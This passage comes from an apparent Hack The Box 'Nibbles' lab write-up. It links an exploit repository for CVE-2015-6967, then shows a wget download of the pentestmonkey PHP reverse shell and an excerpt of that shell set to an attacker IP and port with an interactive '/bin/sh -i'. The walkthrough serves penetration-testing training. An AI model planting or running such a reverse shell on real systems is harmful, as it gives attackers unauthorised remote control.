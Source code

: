 <div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/nibbles/repo.png" title="Exploit Repository" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://github.com/dix0nym/CVE-2015-6967">Repository</a>

<br />
Download the pentestmonkey reverse php shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/nibbles]
└─$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.php
--2025-01-20 00:31:48--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 2606:50c0:8000::154, 2606:50c0:8001::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘shell.php’

shell.php                                                  100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0s      

2025-01-20 00:31:48 (54.6 MB/s) - ‘shell.php’ saved [5491/5491]
```
{% endraw %}

<br />
Update the code to use the HackTheBox IP and the attack listening port.

{% raw %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

<snip>

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.3';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<snip>

?>
```
{% endraw %}
